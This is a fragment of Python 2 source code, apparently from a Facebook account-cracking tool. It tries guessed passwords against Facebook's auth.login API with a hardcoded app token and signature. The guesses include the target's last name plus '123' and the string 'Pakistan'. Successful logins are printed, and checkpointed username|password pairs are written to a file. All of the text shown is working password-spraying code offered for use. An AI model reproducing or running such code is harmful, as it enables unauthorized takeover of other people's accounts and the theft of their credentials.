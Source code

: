 											data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass5)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")

											q = json.load(data)

											if 'access_token' in q:

												print '\x1b[1;92m[OK] \x1b[1;92m ' + user  + ' \x1b[1;36;40m|\x1b[1;92m ' + pass5 + ' 👽 ' + b['name']

												oks.append(user+pass5)

											else:

												if 'www.facebook.com' in q["error_msg"]:

													print '\x1b[1;36;40m[CP] \x1b[1;97m ' + user  + ' \x1b[1;36;40m|\x1b[1;97m ' + pass5 + ' 👽 ' + b['name']

													cek = open("out/CP.txt", "a")

													cek.write(user+"|"+pass5+"\n")

													cek.close()

													cekpoint.append(user+pass5)

												else:

													pass6 = b['last_name'] + '123'

													data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass6)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")

													q = json.load(data)

													if 'access_token' in q:

														print '\x1b[1;92m[OK] \x1b[1;92m ' + user  + ' \x1b[1;36;40m|\x1b[1;92m ' + pass6 + ' 👽 ' + b['name']

														oks.append(user+pass6)

													else:

														if 'www.facebook.com' in q["error_msg"]:

															print '\x1b[1;36;40m[CP] \x1b[1;97m ' + user  + ' \x1b[1;36;40m|\x1b[1;97m ' + pass6 + ' 👽 ' + b['name']

															cek = open("out/CP.txt", "a")

															cek.write(user+"|"+pass6+"\n")

															cek.close()

															cekpoint.append(user+pass6)

														else:

															pass7 = 'Pakistan'
